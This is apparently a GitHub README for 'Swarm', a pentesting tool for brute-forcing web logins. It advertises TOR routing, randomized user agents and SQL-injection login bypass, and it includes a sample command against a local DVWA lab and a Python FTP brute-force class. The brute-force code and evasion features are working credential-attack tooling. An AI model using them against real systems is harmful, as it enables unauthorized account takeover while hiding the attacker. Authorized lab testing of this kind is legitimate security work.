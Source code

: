# DISCLAIMER
**Swarm is for education/research purposes only. The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided.
 The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of ANY files provided with Swarm.
 By using Swarm or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Swarm and ALL files included are for EDUCATION and/or RESEARCH purposes ONLY.
 Swarm is ONLY intended to be used on your own pentesting labs, or with explicit consent from the owner of the property being tested.** 


#About Swarm 
**Swarm is a Bruteforcing pentesting tool for bruteforcing html logins**
##Some Notable Features
* Multi-Threaded
* Randomized user agents
* Supports TOR
* By-pass logins via SQL Injections
* Easy to inherit from to create different types of bruteforcing tools

#Getting Started
```shell
git clone https://github.com/szech696/swarm && cd swarm
chmod 755 swarm		
```	
For all options
```shell
./swarm --help
``` 
##Basic example of how to use on Damn Vulnerable Web App
```shell
./swarm --url='http://localhost/dvwa/login.php' --user-file='usernames.txt' --pass-file='passwords.txt' --verbose --threads=1 
```
##Inheritence Example - FTPHive
```python
from hive import Hive

# class: FTPHive
# description: Hive used to brute-force FTP Logins
class FTPHive(Hive):
        ftp = None
        def __init__(self):
                Hive.__init__(self)


        # function: attemptLogin        - Overriden
        # param: credential             - The credential to attempt a login with
        # return: Boolean               - True if Success | False if Failure
        # description: This function is responsible for attempting a login with the specified credential
        def attemptLogin(self, credential):
                success = False
                Hive.attemptLogin(self, credential)
                username = credential.username
                password = credential.password
                host = credential.host
                try:
                        self.ftp = FTP(host)
                        result = self.ftp.login(username,password)
                        # If result then this was a successful login
                        if result:
                                success = True
                        self.ftp.close()
                except:
                        pass
                return success


        # function: setup
        # description: Prepares this Hive for its attack, *NOTE* This must be called before start is called
        def setup(self):
                Hive.setup(self)

threadCount = 4
ftp_bruteforce = FTPHive()
ftp_bruteforce.target = 'ftp_server_address'		# specify the target 
ftp_bruteforce.usernameFile = 'usernames.txt'		# the username file to use
ftp_bruteforce.passwordFile = 'passwords.txt'		# the password file to use
ftp_bruteforce.verbose = True				# verbose output
ftp_bruteforce.setup()					# setup must be called before start, and after username/usernameFile, passwordFile, and target have been set
ftp_bruteforce.start(threadCount)			# starts the bruteforcing task
```

##Installing Dependencies 
```shell
pip install bitarray
pip install requests
pip install -U requests[socks]
pip install pexpect
apt-get install tor
```
